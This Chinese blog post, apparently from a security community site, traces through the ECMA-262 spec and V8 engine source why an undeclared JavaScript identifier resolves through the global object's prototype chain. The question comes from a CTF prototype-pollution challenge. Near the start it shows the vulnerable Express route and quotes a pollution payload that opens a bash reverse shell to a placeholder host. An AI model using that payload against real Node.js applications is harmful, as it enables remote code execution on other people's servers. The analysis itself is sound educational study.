

# V8引擎源码浅析——js对于未定义的标识符的底层处理逻辑-先知社区

> **来源**: https://xz.aliyun.com/news/19177  
> **文章ID**: 19177

---

事情始于在做ctfshow的web339这道题时，api.js文件中的漏洞触发点处的query未定义

```
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');

/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  res.render('api', { query: Function(query)(query)});
  console.log(1);
});

module.exports = router;

```

其中`res.render('api', { query: Function(query)(query)});`是漏洞点， 用query作为函数体创建了一个立即执行函数， 但问题在于query并没有定义， 从网上找的wp都只是单纯的给出了原型链污染的payload诸如通过login.js中作用于user的不安全的merge污染Object`{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c "bash -i >& /dev/tcp/xxx/4567 0>&1"')"}}`， 但它们都没有解答一个核心问题：`query` \*\*\*\*作为一个独立的、未声明的标识符，而非某个对象的属性，为什么它的解析会触发原型链的查找？

来看这样一段代码:

```
Object.prototype.test = "123";

try {
  console.log(test);
} catch (e) {
  console.error(e);
}
```

我们在终端中运行：


可以看到输出并不是找不到变量或类似的报错，而是输出了123

为了彻底搞清楚这一点，让我们来探索下ECMA规范及V8源码：

首先，js在遇到标识符时，根据ECMA-262规范，会启动标识符解析（ResolveBinding）

```
9.4.2 ResolveBinding ( name [ , env ] )
The abstract operation ResolveBinding takes argument name (a String) and optional argument env (an Environment Record or undefined) and returns either a normal completion containing a Reference Record or a throw completion. It is used to determine the binding of name. env can be used to explicitly provide the Environment Record that is to be searched for the binding. It performs the following steps when called:

1. If env is not present or env is undefined, then
   a. Set env to the running execution context's LexicalEnvironment.
2. Assert: env is an Environment Record.
3. Let strict be IsStrict(the syntactic production that is being evaluated).
4. Return ? GetIdentifierReference(env, name, strict).
NOTE
The result of ResolveBinding is always a Reference Record whose [[ReferencedName]] field is name.
```

ResolveBinding的过程为首先确定从哪个env（环境，当前上下文）开始寻找标识符，接着调用GetIdentifierReference，我们在Environment Record Operations部分找到GetIdentifierReference的定义：

```
9.1.2.1 GetIdentifierReference ( env, name, strict )
The abstract operation GetIdentifierReference takes arguments env (an Environment Record or null), name (a String), and strict (a Boolean) and returns either a normal completion containing a Reference Record or a throw completion. It performs the following steps when called:

1. If env is null, then
   a. Return the Reference Record { [[Base]]: UNRESOLVABLE, [[ReferencedName]]: name, [[Strict]]: strict, [[ThisValue]]: EMPTY }.
2. Let exists be ? env.HasBinding(name).
3. If exists is true, then
   a. Return the Reference Record { [[Base]]: env, [[ReferencedName]]: name, [[Strict]]: strict, [[ThisValue]]: EMPTY }.
4. Else,
   a. Let outer be env.[[OuterEnv]].
   b. Return ? GetIdentifierReference(outer, name, strict).
```

会调用env.HasBinding(name)在当前作用域查找标识符（name），若没查找到，则对上一层作用域（OuterEnv）递归调用GetIdentifierReference，直到达到最外层作用域—全局作用域，而在全局作用域中，HasBinding的实现是不同于其他作用域的：

```
9.1.1.4.1 HasBinding ( N )
The HasBinding concrete method of a Global Environment Record envRec takes argument N (a String) and returns either a normal completion containing a Boolean or a throw completion. It determines if the argument identifier is one of the identifiers bound by the record. It performs the following steps when called:

1. Let DclRec be envRec.[[DeclarativeRecord]].
2. If ! DclRec.HasBinding(N) is true, return true.
3. Let ObjRec be envRec.[[ObjectRecord]].
4. Return ? ObjRec.HasBinding(N).
```

第1步调用envRec.[[DeclarativeRecord]]，即专门存放let/const的属性；若没查到，则在envRec.[[ObjectRecord]]（全局对象）里继续查找，我们来看下全局对象里关于HasBinding的实现：

```
9.1.1.2.1 HasBinding ( N )
The HasBinding concrete method of an Object Environment Record envRec takes argument N (a String) and returns either a normal completion containing a Boolean or a throw completion. It determines if its associated binding object has a property whose name is N. It performs the following steps when called:
1. Let bindingObject be envRec.[[BindingObject]].
2. Let foundBinding be ? HasProperty(bindingObject, N).
3. If foundBinding is false, return false.
4. If envRec.[[IsWithEnvironment]] is false, return true.
5. Let unscopables be ? Get(bindingObject, %Symbol.unscopables%).
6. If unscopables is an Object, then a. Let blocked be ToBoolean(? Get(unscopables, N)).
b. If blocked is true, return false.
7. Return true.
```

第1步首先获取当前环境所绑定的全局对象（global），接着调用HasProperty检查全局对象是否拥有name属性，此处就从作用域链跳到了原型链。

根据交叉引用看下此处HasPropetype的实现；

```
7.3.11 HasProperty ( O, P )
The abstract operation HasProperty takes arguments O (an Object) and P (a property key) and returns either a normal completion containing a Boolean or a throw completion. It is used to determine whether an object has a property with the specified property key. The property may be either own or inherited. It performs the following steps when called:

1. Return ? O.[[HasProperty]](P).
```

一个简单地判断当前对象O是否具有属性P的功能，该属性可以是自身的，也可以是继承的。

至此，理论链路已经清晰：**一个在作用域链中未找到的独立变量，其查找过程在作用域链的尽头，会转变为对全局对象的属性查找，而这个过程会自然地触发原型链的遍历。**

在V8引擎里，整个过程可以分为**编译期**和**执行期**两个阶段。

我们可以看下V8源码里关于变量的作用域链查找实现中的`Scope::Lookup`这个类（v8/src/ast/scopes.cc）

```
// static
template <Scope::ScopeLookupMode mode>
Variable* Scope::Lookup(VariableProxy* proxy, Scope* scope,
                        Scope* outer_scope_end, Scope* cache_scope,
                        bool force_context_allocation) {
  // If we have already passed the cache scope in earlier recursions, we should
  // first quickly check if the current scope uses the cache scope before
  // continuing.
  if (mode == kDeserializedScope) {
    Variable* var = cache_scope->variables_.Lookup(proxy->raw_name());
    if (var != nullptr) return var;
  }

  while (true) {
    // Try to find the variable in this scope.
    Variable* var;
    if (mode == kParsedScope) {
      var = scope->LookupLocal(proxy->raw_name());
    } else {
      DCHECK_EQ(mode, kDeserializedScope);
      var = scope->LookupInScopeInfo(proxy->raw_name(), cache_scope);
    }

    // We found a variable and we are done. (Even if there is an 'eval' in this
    // scope which introduces the same variable again, the resulting variable
    // remains the same.)
    if (var != nullptr) {
      if (mode == kParsedScope && force_context_allocation &&
          !var->is_dynamic()) {
        var->ForceContextAllocation();
      }
      return var;
    }

    if (scope->outer_scope_ == outer_scope_end) break;
    if (V8_UNLIKELY(scope->is_dynamic_scope_)) {
      DCHECK(!scope->is_script_scope());
      if (scope->is_declaration_scope() &&
          scope->AsDeclarationScope()->sloppy_eval_can_extend_vars()) {
        return LookupSloppyEval(proxy, scope, outer_scope_end, cache_scope,
                                force_context_allocation);
      }
      if (scope->is_with_scope()) {
        return LookupWith(proxy, scope, outer_scope_end, cache_scope,
                          force_context_allocation);
      }
      CHECK_EQ(mode, kDeserializedScope);
      CHECK(scope->is_debug_evaluate_scope());
      return cache_scope->NonLocal(proxy->raw_name(), VariableMode::kDynamic);
    }

    force_context_allocation |= scope->is_function_scope();
    scope = scope->outer_scope_;

    // TODO(verwaest): Separate through AnalyzePartially.
    if (mode == kParsedScope && !scope->scope_info_.is_null()) {
      DCHECK_NULL(cache_scope);
      return Lookup<kDeserializedScope>(proxy, scope, outer_scope_end, scope);
    }
  }

  // We may just be trying to find all free variables. In that case, don't
  // declare them in the outer scope.
  // TODO(marja): Separate Lookup for preparsed scopes better.
  if (mode == kParsedScope && !scope->is_script_scope()) {
    return nullptr;
  }

  // No binding has been found. Declare a variable on the global object.
  return scope->AsDeclarationScope()->DeclareDynamicGlobal(
      proxy->raw_name(), NORMAL_VARIABLE,
      mode == kDeserializedScope ? cache_scope : scope);
}
```

`var = scope->LookupLocal(proxy->raw_name());`会首先在当前的作用域去查找标识符，若查找到会在 `if (var != nullptr)`处进行一个内层函数的检查后返回；若在当前作用域没查找到，`scope = scope->outer_scope_;`进行作用域上移，来在下一次while循环中查找上层作用域；当作用域到达顶层时，触发`if (scope->outer_scope_ == outer_scope_end) break;`跳出查找；接着`scope->is_script_scope()`检查当前的查找范围是否为最顶层的脚本作用域（作用域），若是，通过如下代码将正在查找的变量声明为全局作用域变量：

```
return scope->AsDeclarationScope()->DeclareDynamicGlobal(
      proxy->raw_name(), NORMAL_VARIABLE,
      mode == kDeserializedScope ? cache_scope : scope);
```

DeclareDynamicGlobal的实现：

```
Variable* DeclarationScope::DeclareDynamicGlobal(const AstRawString* name,
                                                 VariableKind kind,
                                                 Scope* cache) {
  DCHECK(is_script_scope());
  bool was_added;
  return cache->variables_.Declare(
      zone(), this, name, VariableMode::kDynamicGlobal, kind,
      kCreatedInitialized, kNotAssigned, IsStaticFlag::kNotStatic, &was_added);
  // TODO(neis): Mark variable as maybe-assigned?
}
```

cache为被传入的作用域，通过cache->variables\_.Declare在传入的cache对象的变量列表variables\_中对变量进行声明，注意`VariableMode::kDynamicGlobal`这个标签，我们去看下其实现（v8/src/common/globals.h）：

```
  kDynamicGlobal,  // requires dynamic lookup, but we know that the
                   // variable is global unless it has been shadowed
                   // by an eval-introduced variable
```

说明了其是一个需要动态查找的全局变量，我们来到`BytecodeGenerator::BuildVariableLoad`的LOOKUP部分（编译时位置不确定的变量，如`eval()`, `with`, 或未声明的全局变量）

```
......
case VariableLocation::LOOKUP: {
      switch (variable->mode()) {
        case VariableMode::kDynamicLocal: {
          Variable* local_variable = variable->local_if_not_shadowed();
          int depth =
              execution_context()->ContextChainDepth(local_variable->scope());
          ContextMode context_mode =
              (local_variable->scope()->has_context_cells()
                   ? ContextMode::kHasContextCells
                   : ContextMode::kNoContextCells);
          builder()->LoadLookupContextSlot(variable->raw_name(), typeof_mode,
                                           context_mode,
                                           local_variable->index(), depth);
          if (VariableNeedsHoleCheckInCurrentBlock(local_variable,
                                                   hole_check_mode)) {
            BuildThrowIfHole(local_variable);
          }
          break;
        }
        case VariableMode::kDynamicGlobal: {
          int depth =
              current_scope()->ContextChainLengthUntilOutermostSloppyEval();
          // TODO(1008414): Add back caching here when bug is fixed properly.
          FeedbackSlot slot = feedback_spec()->AddLoadGlobalICSlot(typeof_mode);

          builder()->LoadLookupGlobalSlot(variable->raw_name(), typeof_mode,
                                          feedback_index(slot), depth);
          break;
        }
        default: {
          // Normally, private names should not be looked up dynamically,
          // but we make an exception in debug-evaluate, in that case the
          // lookup will be done in %SetPrivateMember() and %GetPrivateMember()
          // calls, not here.
          DCHECK(!variable->raw_name()->IsPrivateName());
          builder()->LoadLookupSlot(variable->raw_name(), typeof_mode);
          break;
        }
      }
      break;
    }
......
```

进入到`VariableMode::kDynamicGlobal`标签中，注意`builder()->LoadLookupGlobalSlot(variable->raw_name(), typeof_mode,feedback_index(slot), depth);`这段代码，来到`LoadLookupGlobalSlot`的实现：

```
BytecodeArrayBuilder& BytecodeArrayBuilder::LoadLookupGlobalSlot(
    const AstRawString* name, TypeofMode typeof_mode, int feedback_slot,
    int depth) {
  size_t name_index = GetConstantPoolEntry(name);
  switch (typeof_mode) {
    case TypeofMode::kInside:
      OutputLdaLookupGlobalSlotInsideTypeof(name_index, feedback_slot, depth);
      break;
    case TypeofMode::kNotInside:
      OutputLdaLookupGlobalSlot(name_index, feedback_slot, depth);
      break;
  }
  return *this;
}
```

js对被typeof包裹着的变量会进行特殊处理，即分支`TypeofMode::kInside`，我们来到更常见的分支`TypeofMode::kNotInside`，调用由`DEFINE_BYTECODE_OUTPUT`宏生成的`OutputLdaLookupGlobalSlot`函数，即`LdaLookupGlobalSlot`字节码对应的函数，来到Ignition 解释器关于`LdaLookupGlobalSlot`的部分

```
// LdaLookupGlobalSlot <name_index> <feedback_slot> <depth>
//
// Lookup the object with the name in constant pool entry |name_index|
// dynamically.
IGNITION_HANDLER(LdaLookupGlobalSlot, InterpreterLookupGlobalAssembler) {
  LookupGlobalSlot(Runtime::kLoadLookupSlot);
}

// LdaLookupGlobalSlotInsideTypeof <name_index> <feedback_slot> <depth>
//
// Lookup the object with the name in constant pool entry |name_index|
// dynamically without causing a NoReferenceError.
IGNITION_HANDLER(LdaLookupGlobalSlotInsideTypeof,
                 InterpreterLookupGlobalAssembler) {
  LookupGlobalSlot(Runtime::kLoadLookupSlotInsideTypeof);
}
```

通过LookupGlobalSlot函数调用Runtime::kLoadLookupSlot函数（此处不直接调用Runtime::kLoadLookupSlot是为了性能优化），来看下kLoadLookupSlot实现（位于v8/src/runtime/runtime-scopes.cc）

```
RUNTIME_FUNCTION(Runtime_LoadLookupSlot) {
  HandleScope scope(isolate);
  DCHECK_EQ(1, args.length());
  Handle<String> name = args.at<String>(0);
  RETURN_RESULT_OR_FAILURE(isolate,
                           LoadLookupSlot(isolate, name, kThrowOnError));
}
```

接收来自Ignition解释器的调用，接着调用LoadLookupSlot去进行实际处理（v8/src/runtime/runtime-scopes.cc）

```

MaybeDirectHandle<Object> LoadLookupSlot(
    Isolate* isolate, Handle<String> name, ShouldThrow should_throw,
    Handle<Object>* receiver_return = nullptr) {
  int index;
  PropertyAttributes attributes;
  InitializationFlag flag;
  VariableMode mode;
  Handle<Context> context(isolate->context(), isolate);
  Handle<Object> holder = Context::Lookup(context, name, FOLLOW_CHAINS, &index,
                                          &attributes, &flag, &mode);
  if (isolate->has_exception()) return MaybeDirectHandle<Object>();

  if (!holder.is_null() && IsSourceTextModule(*holder)) {
    Handle<Object> receiver = isolate->factory()->undefined_value();
    if (receiver_return) *receiver_return = receiver;
    return SourceTextModule::LoadVariable(
        isolate, Cast<SourceTextModule>(holder), index);
  }
  if (index != Context::kNotFound) {
    DCHECK(IsContext(*holder));
    DirectHandle<Context> holder_context = Cast<Context>(holder);
    // If the "property" we were looking for is a local variable, the
    // receiver is the global object; see ECMA-262, 3rd., 10.1.6 and 10.2.3.
    Handle<Object> receiver = isolate->factory()->undefined_value();
    // Check for uninitialized bindings.
    if (flag == kNeedsInitialization &&
        holder_context->IsElementTheHole(index)) {
      THROW_NEW_ERROR(isolate,
                      NewReferenceError(MessageTemplate::kNotDefined, name));
    }
    if (receiver_return) *receiver_return = receiver;
    DirectHandle<Object> value = Context::Get(holder_context, index, isolate);
    DCHECK(!IsTheHole(*value, isolate));
    return value;
  }

  // Otherwise, if the slot was found the holder is a context extension
  // object, subject of a with, or a global object.  We read the named
  // property from it.
  if (!holder.is_null()) {
    // No need to unhole the value here.  This is taken care of by the
    // GetProperty function.
    DirectHandle<Object> value;
    ASSIGN_RETURN_ON_EXCEPTION(
        isolate, value,
        Object::GetProperty(isolate, Cast<JSAny>(holder), name));
    if (receiver_return) {
      *receiver_return =
          (IsJSGlobalObject(*holder) || IsJSContextExtensionObject(*holder))
              ? Cast<Object>(isolate->factory()->undefined_value())
              : holder;
    }
    return value;
  }

  if (should_throw == kThrowOnError) {
    // The property doesn't exist - throw exception.
    THROW_NEW_ERROR(isolate,
                    NewReferenceError(MessageTemplate::kNotDefined, name));
  }

  // The property doesn't exist - return undefined.
  if (receiver_return) *receiver_return = isolate->factory()->undefined_value();
  return isolate->factory()->undefined_value();
}
```

首先会通过Handle context(isolate->context(), isolate);获取当前作用域，然后通过Context::Lookup对name变量进行查找（v8/src/objects/contexts.cc）

```
// static
Handle<Object> Context::Lookup(Handle<Context> context, Handle<String> name,
                               ContextLookupFlags flags, int* index,
                               PropertyAttributes* attributes,
                               InitializationFlag* init_flag,
                               VariableMode* variable_mode,
                               bool* is_sloppy_function_name) {
  Isolate* isolate = Isolate::Current();

  bool follow_context_chain = (flags & FOLLOW_CONTEXT_CHAIN) != 0;
  bool has_seen_debug_evaluate_context = false;
  *index = kNotFound;
  *attributes = ABSENT;
  *init_flag = kCreatedInitialized;
  *variable_mode = VariableMode::kVar;
  if (is_sloppy_function_name != nullptr) {
    *is_sloppy_function_name = false;
  }

  if (v8_flags.trace_contexts) {
    PrintF("Context::Lookup(");
    ShortPrint(*name);
    PrintF(")
");
  }

  do {
    if (v8_flags.trace_contexts) {
      PrintF(" - looking in context %p",
             reinterpret_cast<void*>(context->ptr()));
      if (context->IsScriptContext()) PrintF(" (script context)");
      if (IsNativeContext(*context)) PrintF(" (native context)");
      if (context->IsDebugEvaluateContext()) PrintF(" (debug context)");
      PrintF("
");
    }

    // 1. Check global objects, subjects of with, and extension objects.
    DCHECK_IMPLIES(context->IsEvalContext() && context->has_extension(),
                   IsTheHole(context->extension(), isolate));
    if ((IsNativeContext(*context) || context->IsWithContext() ||
         context->IsFunctionContext() || context->IsBlockContext()) &&
        context->has_extension() && !context->extension_receiver().is_null()) {
      Handle<JSReceiver> object(context->extension_receiver(), isolate);

      if (IsNativeContext(*context)) {
        DisallowGarbageCollection no_gc;
        if (v8_flags.trace_contexts) {
          PrintF(" - trying other script contexts
");
        }
        // Try other script contexts.
        Tagged<ScriptContextTable> script_contexts =
            context->native_context()->script_context_table();
        VariableLookupResult r;
        if (script_contexts->Lookup(name, &r)) {
          Tagged<Context> script_context =
              script_contexts->get(r.context_index);
          if (v8_flags.trace_contexts) {
            PrintF("=> found property in script context %d: %p
",
                   r.context_index,
                   reinterpret_cast<void*>(script_context.ptr()));
          }
          *index = r.slot_index;
          *variable_mode = r.mode;
          *init_flag = r.init_flag;
          *attributes = GetAttributesForMode(r.mode);
          return handle(script_context, isolate);
        }
      }

      // Context extension objects needs to behave as if they have no
      // prototype.  So even if we want to follow prototype chains, we need
      // to only do a local lookup for context extension objects.
      Maybe<PropertyAttributes> maybe = Nothing<PropertyAttributes>();
      if ((flags & FOLLOW_PROTOTYPE_CHAIN) == 0 ||
          IsJSContextExtensionObject(*object)) {
        maybe = JSReceiver::GetOwnPropertyAttributes(isolate, object, name);
      } else {
        // A with context will never bind "this", but debug-eval may look into
        // a with context when resolving "this". Other synthetic variables such
        // as new.target may be resolved as VariableMode::kDynamicLocal due to
        // bug v8:5405 , skipping them here serves as a workaround until a more
        // thorough fix can be applied.
        // TODO(v8:5405): Replace this check with a DCHECK when resolution of
        // of synthetic variables does not go through this code path.
        if (ScopeInfo::VariableIsSynthetic(*name)) {
          maybe = Just(ABSENT);
        } else {
          LookupIterator it(isolate, object, name, object);
          Maybe<bool> found = UnscopableLookup(&it, context->IsWithContext());
          if (found.IsNothing()) {
            maybe = Nothing<PropertyAttributes>();
          } else {
            // Luckily, consumers of |maybe| only care whether the property
            // was absent or not, so we can return a dummy |NONE| value
            // for its attributes when it was present.
            maybe = Just(found.FromJust() ? NONE : ABSENT);
          }
        }
      }

      if (maybe.IsNothing()) return Handle<Object>();
      DCHECK(!isolate->has_exception());
      *attributes = maybe.FromJust();

      if (maybe.FromJust() != ABSENT) {
        if (v8_flags.trace_contexts) {
          PrintF("=> found property in context object %p
",
                 reinterpret_cast<void*>(object->ptr()));
        }
        return object;
      }
    }

    // 2. Check the context proper if it has slots.
    if (context->IsFunctionContext() || context->IsBlockContext() ||
        context->IsScriptContext() || context->IsEvalContext() ||
        context->IsModuleContext() || context->IsCatchContext()) {
      DisallowGarbageCollection no_gc;
      // Use serialized scope information of functions and blocks to search
      // for the context index.
      Tagged<ScopeInfo> scope_info = context->scope_info();
      VariableLookupResult lookup_result;
      int slot_index = scope_info->ContextSlotIndex(*name, &lookup_result);
      DCHECK(slot_index < 0 || slot_index >= MIN_CONTEXT_SLOTS);
      if (slot_index >= 0) {
        // Re-direct lookup to the ScriptContextTable in case we find a hole in
        // a REPL script context. REPL scripts allow re-declaration of
        // script-level let bindings. The value itself is stored in the script
        // context of the first script that declared a variable, all other
        // script contexts will contain 'the hole' for that particular name.
        if (scope_info->IsReplModeScope() &&
            context->IsElementTheHole(slot_index)) {
          context = Handle<Context>(context->previous(), isolate);
          continue;
        }

        if (v8_flags.trace_contexts) {
          PrintF("=> found local in context slot %d (mode = %hhu)
",
                 slot_index, static_cast<uint8_t>(lookup_result.mode));
        }
        *index = slot_index;
        *variable_mode = lookup_result.mode;
        *init_flag = lookup_result.init_flag;
        *attributes = GetAttributesForMode(lookup_result.mode);
        return context;
      }

      // Check the slot corresponding to the intermediate context holding
      // only the function name variable. It's conceptually (and spec-wise)
      // in an outer scope of the function's declaration scope.
      if (follow_context_chain && context->IsFunctionContext()) {
        int function_index = scope_info->FunctionContextSlotIndex(*name);
        if (function_index >= 0) {
          if (v8_flags.trace_contexts) {
            PrintF("=> found intermediate function in context slot %d
",
                   function_index);
          }
          *index = function_index;
          *attributes = READ_ONLY;
          *init_flag = kCreatedInitialized;
          *variable_mode = VariableMode::kConst;
          if (is_sloppy_function_name != nullptr &&
              is_sloppy(scope_info->language_mode())) {
            *is_sloppy_function_name = true;
          }
          return context;
        }
      }

      // Lookup variable in module imports and exports.
      if (context->IsModuleContext()) {
        VariableMode mode;
        InitializationFlag flag;
        MaybeAssignedFlag maybe_assigned_flag;
        int cell_index =
            scope_info->ModuleIndex(*name, &mode, &flag, &maybe_assigned_flag);
        if (cell_index != 0) {
          if (v8_flags.trace_contexts) {
            PrintF("=> found in module imports or exports
");
          }
          *index = cell_index;
          *variable_mode = mode;
          *init_flag = flag;
          *attributes = SourceTextModuleDescriptor::GetCellIndexKind(
                            cell_index) == SourceTextModuleDescriptor::kExport
                            ? GetAttributesForMode(mode)
                            : READ_ONLY;
          return handle(context->module(), isolate);
        }
      }
    } else if (context->IsDebugEvaluateContext()) {
      has_seen_debug_evaluate_context = true;

      // Check materialized locals.
      Tagged<Object> ext = context->get(EXTENSION_INDEX, kRelaxedLoad);
      if (IsJSReceiver(ext)) {
        Handle<JSReceiver> extension(Cast<JSReceiver>(ext), isolate);
        LookupIterator it(isolate, extension, name, extension);
        Maybe<bool> found = JSReceiver::HasProperty(&it);
        if (found.FromMaybe(false)) {
          *attributes = NONE;
          return extension;
        }
      }

      // Check the original context, but do not follow its context chain.
      Tagged<Object> obj = context->get(WRAPPED_CONTEXT_INDEX, kRelaxedLoad);
      if (IsContext(obj)) {
        Handle<Context> wrapped_context(Cast<Context>(obj), isolate);
        Handle<Object> result =
            Context::Lookup(wrapped_context, name, DONT_FOLLOW_CHAINS, index,
                            attributes, init_flag, variable_mode);
        if (!result.is_null()) return result;
      }
    }

    // 3. Prepare to continue with the previous (next outermost) context.
    if (IsNativeContext(*context)) break;

    // In case we saw any DebugEvaluateContext, we'll need to check the block
    // list before we can advance to properly "shadow" stack-allocated
    // variables.
    // Note that this implicitly skips the block list check for the
    // "wrapped" context lookup for DebugEvaluateContexts. In that case
    // `has_seen_debug_evaluate_context` will always be false.
    if (has_seen_debug_evaluate_context &&
        IsEphemeronHashTable(isolate->heap()->locals_block_list_cache())) {
      DirectHandle<ScopeInfo> scope_info =
          direct_handle(context->scope_info(), isolate);
      Tagged<UnionOf<TheHole, StringSet>> maybe_outer_block_list =
          isolate->LocalsBlockListCacheGet(scope_info);
      if (!IsTheHole(maybe_outer_block_list) &&
          Cast<StringSet>(maybe_outer_block_list)->Has(isolate, name)) {
        if (v8_flags.trace_contexts) {
          PrintF(" - name is blocklisted. Aborting.
");
        }
        break;
      }
    }

    context = Handle<Context>(context->previous(), isolate);
  } while (follow_context_chain);

  if (v8_flags.trace_contexts) {
    PrintF("=> no property/slot found
");
  }
  return Handle<Object>::null();
}
```

其中的LookupIterator it(isolate, object, name, object);创建了一个查找迭代器，接着Maybe found = UnscopableLookup(&it, context->IsWithContext());使用该迭代器对name变量进行查找，此查找过程中会涉及到原型链，可以看下LookupIterator的实现

```
class V8_EXPORT_PRIVATE LookupIterator final {
 public:
  enum Configuration {
    // Configuration bits.
    kInterceptor = 1 << 0,
    kPrototypeChain = 1 << 1,

    // Convenience combinations of bits.
    OWN_SKIP_INTERCEPTOR = 0,
    OWN = kInterceptor,
    PROTOTYPE_CHAIN_SKIP_INTERCEPTOR = kPrototypeChain,
    PROTOTYPE_CHAIN = kPrototypeChain | kInterceptor,
    DEFAULT = PROTOTYPE_CHAIN
  };
```

可以看到默认配置中DEFAULT = PROTOTYPE\_CHAIN，代表着会对原型链进行查找

迭代器使用LookupIterator在原型链上查找到了name变量的值后，返回给found，然后会进入如下的else语句块



可以看到maybe被赋值为NONE，接着在下面的代码里通过maybe.FromJust()被取出，通过if的判断，最终返回object（来自Handle object(context->extension\_receiver(), isolate);，为当前上下文的扩展对象，若当前上下文为NativeContext，则返回的为全局代理对象）

```
if (maybe.IsNothing()) return Handle<Object>();
      DCHECK(!isolate->has_exception());
      *attributes = maybe.FromJust();

      if (maybe.FromJust() != ABSENT) {
        if (v8_flags.trace_contexts) {
          PrintF("=> found property in context object %p
",
                 reinterpret_cast<void*>(object->ptr()));
        }
        return object;
      }
    }
```

Context::Lookup返回object后，给到了LoadLookupSlot中的holder，通过`if (!holder.is_null())`判断，执行`ASSIGN_RETURN_ON_EXCEPTION(isolate, value,Object::GetProperty(isolate, Cast<JSAny>(holder), name));`，来在原型链上查找name的值，赋给value，最终作为LoadLookupSlot的返回值，来到`RETURN_RESULT_OR_FAILURE(isolate,LoadLookupSlot(isolate, name, kThrowOnError));` ，语句执行成功，value作为返回值继续返回，直到传递给`LdaLookupGlobalSlot`字节码函数，成功结束整条调用链。

我们再用语言梳理下这整个流程：

## 依据ECMA-262规范的解释：

1. 标识符解析：当引擎遇到`test`变量，会启动`ResolveBinding`抽象操作，从当前的词法环境（作用域）开始查找。
2. 遍历作用域链：ResolveBinding调用GetIdentifierReference。此操作会从当前作用域开始，通过访问环境记录的[[OuterEnv]]属性，递归地向外层作用域移动，形成作用域链。
3. 到达全局作用域：若GetIdentifierReference遍历了所有局部作用域都一无所获，它最终会到达最外层的全局环境记录 (Global Environment Record)。
4. 转变查找方式：在全局作用域中，HasBinding(N)的实现是特殊的：它会先检查自身的[[DeclarativeRecord]]，如果找不到变量，就会调用[[ObjectRecord]]（在最外层作用域中，该属性为全局对象）的 HasBinding(N) 方法。而全局对象的 HasBinding(N) 核心是调用 HasProperty(bindingObject, N)。对标识符的检查，在这里被正式转换为了对全局对象的属性检查。
5. 原型链查找：HasProperty的实现明确定义了原型链的遍历。

一个未在任何作用域声明的标识符，其查找过程在作用域链的尽头，会转变为对全局对象的属性查找，而这个过程会触发原型链的遍历。

## 依据V8引擎源码的解释：

### **编译期：**

1. Scope::Lookup (位于 v8/src/ast/scopes.cc)： 这是V8 解析器实现作用域链查找的核心。通过一个while循环和scope = scope->outer\_scope\_来模拟作用域的上移。
2. DeclareDynamicGlobal: 当 Scope::Lookup 遍历完所有局部作用域都找不到变量后，它会调用 DeclareDynamicGlobal，为这个未找到的变量创建了一个记录，并打上了VariableMode::kDynamicGlobal标签
3. kDynamicGlobal 标签 (位于 v8/src/common/globals.h): 根据源码的注释我们可以知道，这个标签用于“需要动态查找的全局变量”。

### **执行期：**

1. BytecodeGenerator::BuildVariableLoad (位于 v8/src/interpreter/bytecode-generator.cc): 字节码生成器在处理变量时，会检查其 VariableLocation。对于被标记为 kDynamicGlobal 的变量，其位置 (location) 会是LOOKUP。在此 case 下，它会调用 builder()->LoadLookupGlobalSlot(...)。
2. LoadLookupGlobalSlot: 此函数负责生成最终的字节码。在常规情况下（非typeof），它会调用 OutputLdaLookupGlobalSlot，这个函数由宏生成，最终会构造出LdaLookupGlobalSlot这条字节码指令。
3. IGNITION\_HANDLER(LdaLookupGlobalSlot, ...) (位于 v8/src/interpreter/interpreter-generator.cc): 是LdaLookupGlobalSlot 字节码对应的“处理器”。通过调用辅助函数 LookupGlobalSlot，最终将任务派发给 Runtime::kLoadLookupSlot这个运行时函数。
4. LoadLookupSlot (位于v8/src/objects/contexts.cc的Context::Lookup): 这正是我们寻找的最终执行逻辑，这个函数复现了ECMA 规范的流程：首先进行作用域链查找，通过一个do...while循环，沿着context->previous() 遍历作用域；再触发原型链，当循环结束（意味着所有局部作用域查找失败），Context::Lookup 会返回全局对象作为 holder。接着代码会在这个 holder上调用 Object::GetProperty(isolate, holder, name)；Object::GetProperty: 这个函数内部封装了对 LookupIterator 的使用，LookupIterator 类的设计（config中的 DEFAULT = PROTOTYPE\_CHAIN）和实现，就包含了完整的原型链遍历逻辑。

至此，我们从一个具体的CTF漏洞出发，沿着ECMA规范的入手，最终在V8引擎的源码中找到了问题的最终答案。这个探索过程揭示了JavaScript 中作用域链和原型链这两大核心机制，在全局作用域这个边界上是如何精妙地衔接在一起的。
